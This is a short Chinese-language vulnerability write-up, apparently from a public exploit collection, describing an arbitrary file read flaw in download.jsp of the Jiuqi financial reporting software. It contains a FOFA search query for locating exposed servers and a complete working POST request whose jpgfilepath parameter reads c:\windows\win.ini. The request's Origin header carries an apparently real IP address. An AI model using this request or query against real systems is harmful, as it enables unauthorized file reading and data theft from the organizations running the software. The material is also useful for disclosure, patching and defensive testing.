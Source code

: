# 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

<a-checkbox checked>久其财务报表</a-checkbox></br>

## FOFA

<a-checkbox checked>body="/netrep/"</a-checkbox></br>

## 漏洞复现

登录路径如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145950658.png)



发送请求包

```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145950746.png)
